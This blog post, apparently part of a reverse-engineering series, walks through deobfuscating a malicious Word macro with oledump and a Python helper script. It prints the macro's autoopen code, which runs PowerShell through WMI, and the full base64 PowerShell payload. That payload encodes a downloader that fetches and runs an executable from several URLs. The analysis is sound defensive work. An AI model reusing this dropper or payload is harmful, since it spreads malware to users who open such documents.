


When I opened doc file in MS Office I saw a page with a picture that informed me about necessity of MS Word activation. What is more the picture was encouraging me to run a macro.



Insted of doing this, I opened build-in editor for Visual Basic. (stroke ALT + F11)



Here I started a macro deobfuscation.
There was a lot of unnecessary lines including comments (beginning with \') or while loops with that code structure:

```c
Heightshcf = "Throughway Jewelery & Shoes generate Frozen rich Cayman Islands Dollar radical Avenue Macao Small"

While Heightshcf = wdXMLValidationStatusOK
Electronics__Clothinghab = CDate(726)
COMwli = protocolwbq
transmittingqon = CDbl(537)
modularumu = 598
SCSIfdw = 260                            
Gorgeouswtk = Atn(Reactiverin)
Wend
```                    

In fact that while loops will never process because the condition is always false so I didn't waste time for analysing that mess. You can easily check it in debugger as I did.

In order to delete all unnecessary I used simple python script:

```python                    
import sys

with open(sys.argv[1], 'r') as fi, open(sys.argv[2], 'w') as fo:
    while_flag = False
    for line in fi:
        if '\'' in line:
            index = line.find('\'')
            line = line[:index]
            if line.replace(' ','') != '':
                line += '\n'
        elif 'While' in line:
            while not ('Wend' in line):
            line = fi.readline()
            line = ""
        elif 'Heightshcf' in line:
            line = ""
        fo.write(line)
```           
                

After initial deobfuscation code looked like that:

```c
Attribute VB_Name = "Avonqtl"
Function Gorgeous_Concrete_Gloveswip()
On Error Resume Next
Set Gorgeous_Concrete_Gloveswip = CreateObject(primarymhj + orangemkj(Ridgetjj.channelsioc + Awesomeiip))
Gorgeous_Concrete_Gloveswip.ShowWindow = wdXMLValidationStatusOK
End Function
Function orangemkj(Administratortqv)
On Error Resume Next
    channelsvou = Administratortqv 
metricsiia = "67" 
orangemkj = Replace(channelsvou, metricsiia, "") 
End Function
Sub autoopen()
On Error Resume Next
Kuwaiti_Dinarzip 
End Sub

Attribute VB_Name = "tf3rdgenerationjiu"
Function Kuwaiti_Dinarzip()
On Error Resume Next
Valleyiti = Burundivdl + "p" + orangemkj(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz) 
Delawarejjq = Crossgroupnhp
Set Small_Metal_Mousendm = CreateObject(orangemkj(orangemkj(CStr(912051 + 67 - 912051) + "676767winmgmts:676767Win32_Proc6767ess")))
Delawarejjq = Delawarejjq + Small_Metal_Mousendm.Create#(Valleyiti, Covesnhl, Gorgeous_Concrete_Gloveswip, matrixttd)
End Function
```                    

A bit better but there was still a lot to do. I started with autoopen() function, because the macro started execution from there.
During analysing execution flow in debugger I deobfuscated the rest of the code.

Resulted code looked like that:

```c
Attribute VB_Name = "tf3rdgenerationjiu"

Function create_process()
On Error Resume Next
'Automotive__Healthjwm - obfuscated string "owershell"
'Music__Babyulz - encoded PowerShell script
power_shell_command = "p" + remove_string(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz)
Set win32_object = CreateObject(remove_string("676767winmgmts:676767Win32_Proc6767ess"))
'directory and pid are NULL 
win32_object_process = win32_object.Create#(power_shell_command, directory, win32_process_startup, pid)
End Function

Attribute VB_Name = "Avonqtl"
Function win32_process_startup()
On Error Resume Next
'channelsioc - obfuscated string "winmgmnts:win32_processstartup"
Set win32_process_startup = CreateObject(remove_string(Ridgetjj.channelsioc))
win32_process_startup.ShowWindow = 0
End Function

Function remove_string(str_to_operate)
On Error Resume Next
remove_string = Replace(str_to_operate, "67", "") 
End Function

Sub autoopen()
On Error Resume Next 
create_process 
End Sub
```                    
                
I presented macro execution in following list:

1.  autoopen() function calls create_process
2.  power_shell_command variable is initialized with string created by concatenation of "p" and string returned by remove_string function.
    Argument passed to remove_string is a string which is created by concatenation of two string from OLE object.
3.  remove_string deletes all occurrence of "67" string in passed string.
4.  After all in power_shell_command followed string is placed:
```powershell
    powershell -enco PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQA...
```
5.  Next winmgmnts:win32_Process object is created which is used to create and run process.
   
Next I used oledump to gain content of OLE objects

```python
python oledump/oledump.py PL_95054906484_68262954.doc
```              
                

I assumed that PowerShell script would be in 18th stream (Big stream's size suggested that).

```bash                    
python oledump/oledump.py -s 18 PL_95054906484_68262954.doc > payload.txt
```                    

Then I cut contet which interested me.

```bash                    
cat payload.txt | cut -d '  ' -f20 > payload_cut.txt
```             
                
Additionally I dumped content of 16th and 22th stream.

```bash
python oledump/oledump.py -s 16 PL_95054906484_68262954.doc > process_startup.txt
python oledump/oledump.py -s 22 PL_95054906484_68262954.doc > power_shell.txt
```

That streams contain strings "owershell -enco" or "winmgmts:win32_processstartup".

In order to print all streams you can use that command:

```bash     
seq 12 | awk '{ system("echo stream:  $1+13") system("python oledump/oledump.py PL_95054906484_68262954.doc -s " $+13) system("echo \n") }'
```
                
Encoded payload:

```txt                 
PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQALgBjAG8AbQAvACAAIwA+ACAAJABSAGUAZgBpAG4AZQBkAF8AUABsAGEAcwB0AGkAYwB
fAFMAbwBhAHAAegBwAHAAPQAnAEIAbwByAGQAZQByAHMAbwBkAGkAJwA7ACQAcgBlAGEAbAB0AGkAbQBlAHYAZgBiACAAPQAgACcAMQAyADYAJwA7ACQAaQBuAHYAbwBpA
MAZQBvAGEAagA9ACcAZgByAGEAbQBlAHIAbABqACcAOwAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAPQAkAGUAbgB2ADoAdQBzAGUAcgBwAHIAbwBmAGkAbABlACsAJ
wBcACcAKwAkAHIAZQBhAGwAdABpAG0AZQB2AGYAYgArACcALgBlAHgAZQAnADsAJABiAGEAYwBrAF8AdQBwAGoAdgBpAD0AJwBCAGUAcgBrAHMAaABpAHIAZQBrAHcAegAn
ADsAJABQAGwAYQB6AGEAawBwAGkAPQAuACgAJwBuAGUAdwAtACcAKwAnAG8AYgAnACsAJwBqAGUAYwB0ACcAKQAgAE4ARQB0AC4AVwBlAGIAQwBMAGkAZQBOAFQAOwAkAEQ
AeQBuAGEAbQBpAGMAcQBtAGIAPQAnAGgAdAB0AHAAOgAvAC8AdwB3AHcALgBwAGkAZQBjAGUAbwBmAHAAYQBzAHMAaQBvAG4ALgBuAGUAdAAvADAAeAByAG4AbAAzAC8AYQ
AyADcAeABtADkAOQBmAGcAZABfAG8AbgA3AHgAcAAtADMAMQAxADMANAAxADgAOQAvAEAAaAB0AHQAcAA6AC8ALwB3AHcAdwAuAG0AYQByAGsAZQB0AGYAeABlAGwAaQB0AG
UALgBjAG8AbQAvAHcAcAAtAGEAZABtAGkAbgAvAHUAbgBuAEoAdABDAEgAawAvAEAAaAB0AHQAcABzADoALwAvAHQAYQBuAGEAbgBmAG8AbwBkAC4AYwBvAG0ALwB3AHAALQB
pAG4AYwBsAHUAZABlAHMALwB5AG8AYwBsAHcAeQBXAEUALwBAAGgAdAB0AHAAOgAvAC8AcgBhAGkAcwBhAGIAbwBvAGsALgBjAG8AbQAvAHcAcAAtAGMAbwBuAHQAZQBuAHQAL
wBOAGoAQgB0AHUAeABCAHoAawBEAC8AQABoAHQAdABwADoALwAvAGIAaQBzAHcAYQBsAGYAbwBvAGQAYwBpAHIAYwBsAGUALgBjAG8AbQAvAHYAYwBvAGIAaABsAG8AbgBzAC8
AawBhAGYANgBqAF8ANwAxAHcAegBrAGcAdgBxAHMAbwAtADgALwAnAC4AIgBzAFAAYABMAGkAdAAiACgAJwBAACcAKQA7ACQAQwBsAHUAYgBvAG0AYgA9ACcARQBzAHQAYQB0A
GUAcwB3AGoAcwAnADsAZgBvAHIAZQBhAGMAaAAoACQATQB1AHMAaQBjAF8AXwBHAGEAbQBlAHMAcABtAHUAIABpAG4AIAAkAEQAeQBuAGEAbQBpAGMAcQBtAGIAKQB7AHQAcgB5
AHsAJABQAGwAYQB6AGEAawBwAGkALgAiAGQATwBgAHcATgBgAGwATwBhAGAAZABmAGkATABFACIAKAAkAE0AdQBzAGkAYwBfAF8ARwBhAG0AZQBzAHAAbQB1ACwAIAAkAG0AaQB
kAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQAQQBwAHAAbABpAGMAYQB0AGkAbwBuAHMAaQBxAHIAPQAnAEcAcgBvAGMAZQByAHkAdABpAHcAJwA7AEkAZgAgACgAKAAmACgAJwB
HAGUAdAAnACsAJwAtAEkAJwArACcAdABlAG0AJwApACAAJABtAGkAZABkAGwAZQB3AGEAcgBlAGwAdABrACkALgAiAEwARQBgAE4AZwBUAGgAIgAgAC0AZwBlACAAMwA1ADYAMAA5
ACkAIAB7AFsARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgAiAHMAYABUAEEAUgB0ACIAKAAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQ
AdAByAGEAbgBzAGYAbwByAG0AdgBkAHAAPQAnAEIAZQBkAGYAbwByAGQAcwBoAGkAcgBlAGoAdwBjACcAOwBiAHIAZQBhAGsAOwAkAEMAbwBuAGMAcgBlAHQAZQBpAGoAYQA9ACcAcg
BlAGQAdQBuAGQAYQBuAHQAdwB3AGkAJwB9AH0AYwBhAHQAYwBoAHsAfQB9ACQAbQBvAHIAcABoAHQAcQBiAD0AJwBHAG8AcgBnAGUAbwB1AHMAXwBGAHIAZQBzAGgAXwBIAGEAdABpAH
EAYgAnAA==       
```      

#### Table of content:

1.  [Environment configuration](/blog/first-steps-in-re/environment-configuration)
2.  [Initial analysis](/blog/first-steps-in-re/initial-analysis)
3.  [Macro analysis](/blog/first-steps-in-re/macro-analysis)
4.  [Dropper analysis](/blog/first-steps-in-re/dropper-analysis)
5.  [Detonation](/blog/first-steps-in-re/detonation)
7.  [Domain analysis](/blog/first-steps-in-re/domain-analysis)
8.  [Detonation ver. 2](/blog/first-steps-in-re/detonation-v2)
9.  [Summary](/blog/first-steps-in-re/summary)
